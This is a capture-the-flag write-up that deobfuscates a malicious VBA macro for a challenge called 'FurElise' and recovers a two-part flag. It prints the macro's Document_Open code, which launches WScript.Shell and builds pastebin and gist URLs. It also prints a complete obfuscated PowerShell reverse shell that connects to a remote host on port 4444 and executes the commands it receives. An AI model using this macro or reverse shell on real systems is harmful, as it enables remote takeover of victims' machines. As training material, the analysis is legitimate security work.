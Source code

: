 # FurElise

## Solution

The challenge requires us to download a zip file containing a text file <a href="images/heartbroken.txt">heartbroken.txt</a>. The file contains some VBA (Visual Basic for Applications) commands along with many lines of 'FurElise'.
```
Sub Document_Open()
	Set dCBkaW1pbm = CreateObject("WScript.Shell")
	pbmcgYXQgY3Jvc = "&h&t&t&p&s&:&/&/&"
	CBtYXR0ZXJucy = "&p&a&s&t&e&b&i&n&.&c&o&m&"
	4gb3ZlciB3ZSB = "&/&r&a&w&/&K&h&4&V&y&U&Y&c&"
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
	''''''FürElise''''''FürElise
                 [REDACTED]
```
To remove the unnecessary lines, we can use ```uniq``` command in Linux rather than manually removing the ```FurElise```. The output will be stored in ```new.txt```
```
cat heartbroken.txt | uniq > new.txt
```
```
Sub Document_Open()
	Set dCBkaW1pbm = CreateObject("WScript.Shell")
	pbmcgYXQgY3Jvc = "&h&t&t&p&s&:&/&/&"
	CBtYXR0ZXJucy = "&p&a&s&t&e&b&i&n&.&c&o&m&"
	4gb3ZlciB3ZSB = "&/&r&a&w&/&K&h&4&V&y&U&Y&c&"
	''''''FürElise''''''FürElise
	Replace(luY2lkZW50IG,"&","")
	Replace(luZyB0aGF0IG,"&","")
	Replace(VsZCBkZWNvZG,"&","")
	Replace(N0b3JzLCBjb3,"&","")
```
However, we can see that & makes the command hard to understand. So, we need to remove & from the text file.
```
cat new.txt | sed 's/&//g'
```

```
Sub Document_Open()
        Set dCBkaW1pbm = CreateObject("WScript.Shell")
        pbmcgYXQgY3Jvc = "https://"
        CBtYXR0ZXJucy = "pastebin.com"
        4gb3ZlciB3ZSB = "/raw/Kh4VyUYc"
        ''''''FürElise''''''FürElise
        Replace(luY2lkZW50IG,"","")
        Replace(luZyB0aGF0IG,"","")
        Replace(VsZCBkZWNvZG,"","")
        Replace(N0b3JzLCBjb3,"","")
        Replace(BkZWZpbmVkIH,"","")
        Replace(4gY29tcGxleC,"","")
        Replace(pbmcgYXQgY3Jvc,"","")
        Replace(CBtYXR0ZXJucy,"","")
        Replace(4gb3ZlciB3ZSB,"","")
        dCBkaW1pbm.Exec("whoami")
        ''''''FürElise''''''FürElise
        luY2lkZW50IG = “https://gist.githubusercontent.com/zachwong02”
        luZyB0aGF0IG = “/5a8e7d365c6d9b649b12be3c890c8cb4”
        VsZCBkZWNvZG = “/raw”
        N0b3JzLCBjb3 = “/85f79114e8cb93dca7d1ae44d5fd81aa95d021e9”
        BkZWZpbmVkIH = “/gistfile1”
```

Now, we can clearly see two links that we can access. 
https://pastebin.com/raw/Kh4VyUYc and https://gist.githubusercontent.com/zachwong02/5a8e7d365c6d9b649b12be3c890c8cb4/raw/85f79114e8cb93dca7d1ae44d5fd81aa95d021e9/gistfile1.txt

### Flag 1/2
From the first link we get the first part of the flag
```
ABOH23{d!ff1cU17_s0Ng
```

From the second link, we get encrypted lines that also mention Powershell. By using CyberChef, we can conclude that it is Base64 encode. You can also copy the encrypted lines and use Base64 decode command in Linux.
```
cat flag2.txt | base64 -d
```

```
if (-not(&($([char](99+84-99)+[char](67*101/67)+[char](0+115-0)+[char](0+116-0)+[char](16+45-16)+[char](114+80-114)+[char](96*97/96)+[char](0+116-0)+[char](0+104-0))) -Path ($('$'+'e'+'n'+'v'+':'+'U'+'S'+'E'+'R'+'P'+'R'+'O'+'F'+'I'+'L'+'E') + ([string]::join('', ( (92,68,101,115,107,116,111,112,92,77,117,115,105,99) |%{ ( [char][int] $_)})) | % {$_})) -PathType (([string]::join('', ( (76,101,97,102) |%{ ( [char][int] $_)})) | % {$_})))){
        & (("jDkavXf-p98OYShtMg4A2cN5xPIHeF1zyElTnwZmRbLKQGisJC0UWoBVduqr637")[37,59,46,15,28,7,14,53,47,15] -join '') (('d'+'o'+'n'+'t'+' '+'e'+'x'+'e'+'c'+'u'+'t'+'e'+' '+'t'+'h'+'e'+' '+'s'+'c'+'r'+'i'+'p'+'t'+'.'+'.'+'.'+' '+'a'+'m'+'a'+'t'+'e'+'u'+'r'+' '+'m'+'o'+'m'+'e'+'n'+'t'+'.'+'.'+'.'))
        return
}
$LHOST = $([char](36*36/36)+[char](76+40-76)+[char](0+49-0)+[char](27*43/27)+[char](0+49-0)+[char](27*43/27)+[char](86+48-86)+[char](0+45-0)+[char](0+49-0)+[char](0+41-0)+[char](0+99-0)+[char](98+97-98)+[char](52+116-52)+[char](7*101/7)+[char](0+62-0)+[char](0+57-0)+[char](0+50-0)+[char](0+46-0)+[char](43*49/43)+[char](0+54-0)+[char](116+56-116)+[char](37*46/37)+[char](86*50/86)+[char](94*50/94)+[char](0+49-0)+[char](76+46-76)+[char](0+49-0)+[char](74+52-74)+[char](96*56/96));
$LPORT = ($(4444));
$TCPClient = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) Net.Sockets.TCPClient($LHOST, $LPORT);
$NetworkStream = $TCPClient.GetStream();
$StreamReader = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) IO.StreamReader($NetworkStream);
$StreamWriter = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) IO.StreamWriter($NetworkStream);
$StreamWriter.AutoFlush = $true;
$Buffer = & ([string]::join('', ( (78,101,119,45,79,98,106,101,99,116) |%{ ( [char][int] $_)})) | % {$_}) System.Byte[] $($(1024));
while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length);
$c2 = $([char](27*104/27)+[char](60+116-60)+[char](57*116/57)+[char](67*112/67)+[char](18+115-18)+[char](28+58-28)+[char](76*47/76)+[char](50*47/50)+[char](83*112/83)+[char](89*97/89)+[char](0+115-0)+[char](23*116/23)+[char](7*101/7)+[char](78+98-78)+[char](76*105/76)+[char](86+110-86)+[char](0+46-0)+[char](86*99/86)+[char](52*111/52)+[char](100+109-100)+[char](10*47/10)+[char](0+114-0)+[char](94+97-94)+[char](95+119-95)+[char](25*47/25)+[char](0+74-0)+[char](59*67/59)+[char](31+103-31)+[char](0+76-0)+[char](56+122-56)+[char](57+52-57)+[char](0+102-0)+[char](40*49/40));
$Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) };
if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { & ([string]::join('', ( (73,110,118,111,107,101,45,69,120,112,114,101,115,115,105,111,110) |%{ ( [char][int] $_)})) | % {$_}) ($Code) 2>&1 } catch { $_ };
$StreamWriter.Write($(($('$'+'O'+'u'+'t'+'p'+'u'+'t'+'`'+'n'))));
$Code = $null } };
$TCPClient.Close();
$NetworkStream.Close();
$StreamReader.Close();
```
By pasting the command inside Powershell, we can know the value of each variable. Variable ```c2 ``` contains the link for second flag

<p align="center">
  <img width="80%" height="300" src="images/Capture1.PNG">
</p>

https://pastebin.com/raw/JCgLz4f1

### Flag 2/2
```
_FROm_hEaRtBrE4K}
```

## Flag
```
ABOH23{d!ff1cU17_s0Ng_FROm_hEaRtBrE4K}
```
